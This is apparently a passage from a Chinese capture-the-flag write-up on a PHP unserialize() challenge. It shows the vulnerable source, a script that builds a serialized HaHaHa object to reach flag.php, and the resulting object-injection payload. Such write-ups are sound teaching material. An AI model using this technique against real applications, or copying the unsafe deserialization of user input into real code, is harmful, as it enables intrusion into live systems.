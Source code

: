 ```php
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```

可以通过修改反序列化对象的参数就可以绕过该魔术方法了，先进行序列化构造。

```php
<?php
class HaHaHa{


  public $admin;
  public $passwd;

  public function __construct(){
    $this->admin ="user";
    $this->passwd = "123456";
  }

  public function __wakeup(){
    $this->passwd = sha1($this->passwd);
  }

  public function __destruct(){
    if($this->admin === "admin" && $this->passwd === "wllm"){
      include("flag.php");
      echo $flag;
    }else{
      echo $this->passwd;
      echo "No wake up";
    }
  }
}

$a = new HaHaHa();
$a->admin = "admin";
$a->passwd = "wllm";
echo serialize($a);
```

可以得到值

```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
